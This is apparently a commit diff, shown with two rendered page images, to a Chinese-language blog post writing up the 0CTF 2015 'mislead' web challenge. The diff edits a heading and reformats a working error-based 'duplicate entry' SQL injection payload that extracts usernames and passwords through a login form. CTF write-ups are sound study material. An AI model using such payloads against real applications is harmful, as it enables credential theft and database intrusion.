

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-02-0ctf-mislead.md, in a window 1280 px wide and 900 px high, scrolled down 706 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded.

```diff
--- a/_posts/2015-04-02-0ctf-mislead.md
+++ b/_posts/2015-04-02-0ctf-mislead.md
@@ -10,7 +10,7 @@ tags:
 
 详见[原文链接](http://www.pwntester.com/blog/2015/03/30/0ctf-2015-mislead-web-300/)
 
- `Duplicate entry technique` 经典注入语句
+# `Duplicate entry technique` 经典注入语句
 
 `Get the DB`:
 {% highlight php %}
@@ -44,7 +44,7 @@ SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'password
 
 `Get the first user`:
 {% highlight php %}
- username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(concat(`username`,0x7e,`password`) as char),0x7e)) from users limit `0`,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   );#&submit=Submit
+ username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   );#&submit=Submit
 {% endhighlight %}
 Output:
 
```
